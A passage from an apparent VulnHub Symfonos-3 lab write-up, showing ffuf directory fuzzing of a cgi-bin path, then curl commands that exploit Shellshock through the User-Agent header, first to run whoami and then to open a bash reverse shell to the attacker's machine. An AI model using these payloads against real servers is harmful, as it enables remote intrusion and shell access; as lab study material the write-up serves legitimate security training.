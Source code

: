 			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.12/cgi-bin/FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	 :: Extensions       : .html .txt .cgi .php 
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	________________________________________________
							[Status: 403, Size: 279, Words: 20, Lines: 10]
	.html                   [Status: 403, Size: 279, Words: 20, Lines: 10]
	.php                    [Status: 403, Size: 279, Words: 20, Lines: 10]
	underworld              [Status: 200, Size: 65, Words: 14, Lines: 2]
	:: Progress: [1102800/1102800] :: Job [1/1] :: 5799 req/sec :: Duration: [0:03:17] :: Errors: 0 ::
	```
	- `underworld`
4. Proceed to `underworld`
	![](images/Pasted%20image%2020220204042429.png)
	- A cgi-bin script is executed, could be vulnerable to Shellshock
5. Determine whether the webserver is susceptible to shellshock
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-3]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://$ip/cgi-bin/underworld
	cerberus
	```
	- Exploited before @ TryHackMe: 0day
6. Execute reverse shell
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-3]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.110.4/4444 0>&1' http://$ip/cgi-bin/underworld
	```
	![](images/Pasted%20image%2020220204043454.png)
